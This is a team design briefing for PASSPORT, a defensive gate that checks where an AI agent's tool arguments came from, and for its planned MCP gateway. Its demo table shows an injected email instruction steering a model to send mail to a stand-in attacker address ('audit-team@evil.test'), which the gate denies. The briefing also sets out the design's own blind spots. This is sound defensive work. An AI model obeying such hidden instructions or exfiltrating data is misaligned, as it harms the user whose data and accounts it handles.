

# PASSPORT: project structure and the MCP gateway

Team briefing · branch `feat/gateway-mcp` · written 2026-10-31

This explains (1) how the repo is laid out, (2) how PASSPORT works in one page, and (3) what the MCP gateway is, how it works, what is already built and what is still left.

---

## 1. What PASSPORT is, in 30 seconds

PASSPORT is a security gate that sits between an AI agent and its tools. Before any tool runs (send email, pay invoice, delete file, read secret), the gate traces every important argument back to where its value came from:

- Value born in the **user's words** or **trusted config** → fine.
- Value born in **untrusted content** (an email body, a file) → blocked as a sink argument. A hidden instruction in an email cannot make the agent send money or mail to an attacker.
- **Secrets** can never leave.

Verdicts: `ALLOW`, `REQUIRE_APPROVAL` (a human decides; no answer = no), `DENY`. Any error anywhere = `DENY` (fail closed). Every decision goes into a hash-chained audit log.

All data is synthetic (the fake "Nimbus Labs" world).

---

## 2. Repo structure

The active repo is `passport-cybercell/`. (`passport-sky/` next to it is a separate copy of the project; ignore it for this work.)

```
passport-cybercell/
├── backend/                 FastAPI + SQLite. THE PRODUCT lives here.
│   └── app/
│       ├── gate/            decision logic: capsule, segments, tracer, disguise, decide, handle, policy.yaml
│       ├── tools/           registry.py (tool catalogue) + world.py (fake Nimbus world)
│       ├── agent/           our own agent loop + LLM back-ends (replay / live Groq)
│       ├── api/             HTTP routes + request schemas   (POST /v1/decide is here)
│       ├── db/              SQLite, migrations, hash-chained audit log
│       ├── scenarios/       s1-s8 YAML attack + legit scenarios
│       ├── world_data/      fake inboxes, files, vault, vendors
│       └── security.py      headers, body limit, rate limit, access code
├── frontend/                React + Vite + TS UI: Agent tab, Scoreboard, Audit tab
├── integrations/
│   └── mcp_gateway/         <- THE MCP PART (new, untracked, on feat/gateway-mcp)
│       ├── server.py        the gateway (written)
│       └── tests/conftest.py   test setup only; test_gateway.py not written yet
├── contracts/               API contract, examples, openapi.json (source of truth for front/back)
├── docs/                    SPEC, ARCHITECTURE, THREAT-MODEL, DECISIONS, API-NOTES, ACCEPTANCE, PITCH ...
├── prompts/                 ready-to-paste Claude Code prompts per slice (v2-E-mcp-gateway.md is ours)
└── .claude/                 Claude Code kit: skills, agents, commands, hooks
```

Rules we follow:
- `backend/app/gate/` is the product. Nothing reaches a tool except through `gate/handle.py`.
- The MCP gateway **does not modify** `backend/app/` or `frontend/`. It imports from the backend read-only and talks to it over HTTP. If `/v1/decide` needs a change, ask Person A.
- Contract-first: any API shape change goes in `contracts/` first.

### The decision pipeline (inside the backend)

```
tool call → strict arg check (R0) → profile (R1) → canary secrets (R2)
          → trace every sink arg: user → trusted → secret → untrusted (R3/R4/R5)
          → intent (R6) → high impact (R7) → trifecta (R8) → lookalike (R11)
          → strongest verdict wins, every reason kept as evidence
```

---

## 3. The MCP gateway

### Why we are building it
The problem statement lists "MCP gateway" as an optional extension, and judges asked "how does PASSPORT connect to other software?". Today PASSPORT protects our own agent loop and anyone who calls `POST /v1/decide`. With the gateway, **any MCP client** (Claude Desktop, Cursor, VS Code, MCP Inspector) gets the same checks, with no change to the client or the model.

### Architecture



Key idea: the gateway is a **thin MCP front** over the backend's stateless `/v1/decide` endpoint. The gate logic is not duplicated. The gateway's jobs are:

1. Expose the same 7 tools as our own agent (`list_unread_emails`, `read_email`, `send_email`, `read_file`, `read_secret`, `pay_invoice`, `delete_file`), plus `start_task`.
2. Remember the user's request and every earlier tool output, labelled with its trust level.
3. Ask the backend for a verdict before every call and enforce it.

### The flow of one session (the demo)

Gateway started with `PASSPORT_INBOX=s2_hidden_instruction`. In Claude Desktop the user says: *"Summarise my unread emails and reply to Asha with the summary."*

| # | Client calls | Gateway does | Result |
|---|---|---|---|
| 1 | `start_task(request=...)` | stores the request as the session intent; locked | "Intent locked" |
| 2 | `list_unread_emails` | asks `/v1/decide` → ALLOW; runs tool; saves output as **untrusted** context | emails returned |
| 3 | `send_email(to="audit-team@evil.test", ...)` (model followed the hidden instruction) | `/v1/decide` traces `to` back to the email line → **DENY R3** | MCP error with rule id, reason and the source line |
| 4 | `send_email(to=<Asha>, ...)` | ALLOW | sent in the simulated world |
| - | backend stopped, any tool | decide call fails | refused: "PASSPORT unreachable, failing closed" |

### What `/v1/decide` receives (built by the gateway)

```json
{
  "tool": "send_email",
  "args": {"to": "...", "subject": "...", "body": "..."},
  "user_request": "<the text given to start_task>",
  "context": [
    {"source": "list_unread_emails #1, email #3 from ...", "trust": "untrusted", "text": "From: ...\nSubject: ...\n\n..."}
  ]
}
```

- `trust` comes from the tool's `output_trust` in `tools/registry.py` (emails/files = untrusted, `read_secret` = secret, send/pay/delete = trusted).
- Limits (match `backend/app/api/schemas.py`): 50 context items, 20,000 chars each, newest kept; request max 2,000 chars; timeout 5 s.
- `X-Demo-Code` header is sent when `PASSPORT_DEMO_CODE` is set.

### Fail-closed rules (all implemented in `server.py`)

| Situation | Gateway behaviour |
|---|---|
| Any tool before `start_task` | refused (`NO_INTENT`) |
| Second `start_task` | refused (`LOCKED`), so injected content cannot rewrite the task |
| Unknown tool / bad or extra arguments | refused, tool never runs |
| Backend down, timeout, non-200, unparseable body, unknown verdict | refused: "PASSPORT unreachable, failing closed" |
| `DENY` | refused with `PASSPORT DENY <rule>: <message>` + evidence lines (value, source, line, snippet) |
| `REQUIRE_APPROVAL` | **currently refused** ("needs human approval; refused") |
| Unexpected exception in the gateway | caught, refused (never raised: the client would get a bare "Internal server error") |
| Calls | serialised with a lock, so each decision sees every earlier output |

Logs go to **stderr only** (stdout is the stdio protocol). One line per call: tool, verdict, rule id. Arguments are never logged because they may hold a secret.

### Implementation choices

- **SDK**: official `mcp` 2.3.0 low-level `Server`, not FastMCP. Reason: the tool list is built dynamically from `TOOLS` and one handler does it; FastMCP 4.x no longer depends on `mcp`, so mixing buys nothing. (Note: the older prompt `prompts/v2-E-mcp-gateway.md` still says FastMCP; the code and `docs/API-NOTES.md` supersede it.) mcp 2.x takes handlers as constructor arguments (`Server(..., on_list_tools=..., on_call_tool=...)`), not decorators.
- **Transports**: stdio by default (Claude Desktop); `--http --port 8765` for streamable HTTP at `/mcp` (MCP Inspector).
- **State**: one `World`, one intent, one context list **per gateway process**.
- **Backend reuse**: imports `TOOLS`, `validate_args`, `run_tool`, `World` read-only via `backend/` on `sys.path`.
- **Audit**: the backend already writes a `v1_decide` audit event for each call, so gateway calls show in the Audit tab with no extra work.

### Configuration (environment variables)

| Var | Default | Meaning |
|---|---|---|
| `PASSPORT_URL` | `http://127.0.0.1:8000` | where the backend runs |
| `PASSPORT_INBOX` | `base` | which fake inbox to load (`s2_hidden_instruction`, `s4_delete_request`, `s7a_hindi`, ...) |
| `PASSPORT_DEMO_CODE` | unset | sent as `X-Demo-Code` if the backend requires an access code |

### How to run it (once the backend is up)

```powershell
# terminal 1: backend
cd backend; .venv\Scripts\uvicorn app.main:app --port 8000 --env-file .env

# terminal 2: gateway over HTTP, for MCP Inspector
$env:PASSPORT_INBOX = "s2_hidden_instruction"
backend\.venv\Scripts\python integrations\mcp_gateway\server.py --http --port 8765
npx @modelcontextprotocol/inspector --server-url http://127.0.0.1:8765/mcp --transport http
```

Claude Desktop config (stdio) goes in `%APPDATA%\Claude\claude_desktop_config.json`. Use absolute paths, then fully quit and restart Claude Desktop:

```json
{
  "mcpServers": {
    "passport": {
      "command": "C:\\Cybersec hack\\passport-cybercell\\backend\\.venv\\Scripts\\python.exe",
      "args": ["C:\\Cybersec hack\\passport-cybercell\\integrations\\mcp_gateway\\server.py"],
      "env": {
        "PASSPORT_URL": "http://127.0.0.1:8000",
        "PASSPORT_INBOX": "s2_hidden_instruction"
      }
    }
  }
}
```

Adjust the paths to your own machine. Server stderr appears in `%APPDATA%\Claude\logs\mcp-server-passport.log`.

---

## 4. Status: what is done and what is left

**Done (verified just now):**
- `integrations/mcp_gateway/server.py` is written; with the backend venv it imports, builds the server and lists 8 tools (`start_task` + the 7 world tools).
- Backend `POST /v1/decide` exists and is covered by backend tests (stateless, accepts `context` with trust labels).
- SDK facts researched and recorded in `docs/API-NOTES.md`.

**Not done yet (nobody should assume these exist):**

| Item | Notes |
|---|---|
| `tests/test_gateway.py` | Only `conftest.py` exists. Needed cases: s2 flow (ALLOW read, DENY attacker send, ALLOW legit send); tool before `start_task`; second `start_task`; backend down → tool didn't run; REQUIRE_APPROVAL → refused; invalid args; secret read earlier is sent as `trust: secret` and exfil is DENY. Plan: in-memory MCP `Client(server)` with the backend app served through httpx ASGI transport (no network). |
| `integrations/requirements.txt` | Proposed: `mcp==2.3.0`, `httpx==0.28.1` |
| `integrations/mcp_gateway/README.md` | setup, Claude Desktop config, Inspector steps, demo script, limits |
| Makefile targets | `mcp-gateway`, `mcp-test` |
| Real end-to-end run | Not yet run in Claude Desktop or MCP Inspector (acceptance item V2-E, `[hand]`). Inspector is still marked "Not run yet" in API-NOTES. |
| Docs | DECISIONS.md, ARCHITECTURE.md paragraph, PITCH.md line + Q&A, THREAT-MODEL.md limits, ACCEPTANCE.md ticks |
| Git | `integrations/` is untracked; nothing committed on `feat/gateway-mcp` yet |

**Open decisions / risks:**
1. **Approval flow.** Today `REQUIRE_APPROVAL` is refused outright. The earlier prompt wanted MCP *elicitation* (ask the user "Approve X?" and run only on an explicit yes). `API-NOTES.md` assumes Claude Desktop times out around 60 s and proposes a 40 s wait (`GATEWAY_APPROVAL_WAIT_S`); that timeout is **not verified**. Decide: ship refuse-only for the demo, or build elicitation.
2. **Argument-name casing.** The code uses `inputSchema` / `isError` (camelCase). `API-NOTES.md` recorded snake_case (`input_schema` / `is_error`) for mcp 2.3.0. It built and listed tools fine here, but the first full tool call through a real client will confirm that errors reach the client with `is_error` set. Test this first.
3. **Python version.** SDK tested on Python 3.14.3 locally; 3.11-3.13 not run.
4. **Deadline.** Per the plan: if it isn't working by 08:00, cut it and present it as future work.

---

## 5. Honest limits (say these to judges before they ask)

- The gateway protects only tools **exposed through it**. If the client can reach the same capability another way (another MCP server, a built-in tool), PASSPORT does not see it.
- In MCP the gateway sees the user's request **as the client reports it** via `start_task`. We cannot independently verify the client passed the user's words honestly. A compromised client can lie about intent.
- Context is only what flowed through the gateway in this session; content the client fetched elsewhere is unlabelled.
- The tools are our **simulated** world, not real accounts. The gateway is a proof that the gate works over MCP, not a production proxy for third-party MCP servers (that is the "later" idea in `docs/PROGRESS.md`).

## 6. Who does what

| Area | Owner |
|---|---|
| Gateway (`integrations/mcp_gateway/`) | Person B (M1) |
| `/v1/decide`, gate rules, backend | Person A. Do not change without asking. |
| Docs + pitch lines | whoever finishes the tests first |

Useful reading: `docs/ARCHITECTURE.md`, `contracts/README.md` (the `/v1/decide` shape), `prompts/v2-E-mcp-gateway.md` (original spec), `docs/API-NOTES.md` (MCP SDK facts), `docs/THREAT-MODEL.md`.
